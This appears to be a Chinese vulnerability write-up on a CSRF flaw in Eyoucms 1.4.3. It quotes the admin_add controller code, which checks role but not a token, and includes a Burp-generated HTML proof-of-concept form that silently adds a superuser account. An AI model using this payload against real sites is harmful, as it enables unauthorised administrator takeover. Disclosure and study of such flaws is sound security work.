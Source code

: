 Eyoucms 1.4.3 csrf漏洞
======================

一、漏洞简介
------------

可通过csrf漏洞添加管理员

二、漏洞影响
------------

Eyoucms 1.4.3

三、复现过程
------------

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

      public function admin_add()
     {
         $this->language_access(); // 多语言功能操作权限

         if (IS_POST) {
             $data = input('post.');

             if (0 < intval(session('admin_info.role_id'))) {
                 $this->error("超级管理员才能操作！");
             }

             if (empty($data['password']) || empty($data['password2'])) {
                 $this->error("密码不能为空！");
             }else if ($data['password'] != $data['password2']) {
                 $this->error("两次密码输入不一致！");
             }

             ...

             if (empty($data['pen_name'])) {
                 $data['pen_name'] = $data['user_name'];
             }
             if (M('admin')->where("user_name", $data['user_name'])->count()) {
                 $this->error("此用户名已被注册，请更换",url('Admin/admin_add'));
             } else {
                 $admin_id = M('admin')->insertGetId($data);
                 if ($admin_id) {
                     adminLog('新增管理员：'.$data['user_name']);

                     /*同步追加一个后台管理员到会员用户表*/
                     try {
                         $usersInfo = Db::name('users')->field('users_id')->where([
                                 'username'  => $data['user_name'],
                                 'lang'      => $this->admin_lang,
                             ])->find();
                         if (!empty($usersInfo)) {
                             $r = Db::name('users')->where(['users_id'=>$usersInfo['users_id']])->update([
                                     'nickname'      => $data['user_name'],
                                     'admin_id'      => $admin_id,
                                     'is_activation' => 1,
                                     'is_lock'       => 0,
                                     'is_del'        => 0,
                                     'update_time'   => getTime(),
                                 ]);
                             !empty($r) && $users_id = $usersInfo['users_id'];
                         } else {
                             // 获取要添加的用户名
                             ...

                             $users_id = Db::name('users')->insertGetId($AddData);
                         }
                         if (!empty($users_id)) {
                             Db::name('admin')->where(['admin_id'=>$admin_id])->update([
                                     'syn_users_id'  => $users_id,
                                     'update_time'   => getTime(),
                                 ]);
                         }
                     } catch (\Exception $e) {}
                     /* END */

                     $this->success("操作成功", url('Admin/index'));
                 } else {
                     $this->error("操作失败");
                 }
             }
         }

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项\>管理员\>新增管理员点击之后截包

![](./.resource/Eyoucms1.4.3csrf漏洞/media/rId26.png)

### poc

     <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body>
     <script>history.pushState('', '', '/')</script>
         <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
         <input type="hidden" name="user&#95;name" value="test" />
         <input type="hidden" name="password" value="test" />
         <input type="hidden" name="password2" value="test" />
         <input type="hidden" name="pen&#95;name" value="" />
         <input type="hidden" name="true&#95;name" value="" />
         <input type="hidden" name="mobile" value="" />
         <input type="hidden" name="role&#95;id" value="&#45;1" />
         <input type="submit" value="Submit request" />
         </form>
     </body>
     </html>

模拟管理员点击

![](./.resource/Eyoucms1.4.3csrf漏洞/media/rId28.png)

添加完成

![](./.resource/Eyoucms1.4.3csrf漏洞/media/rId29.png)
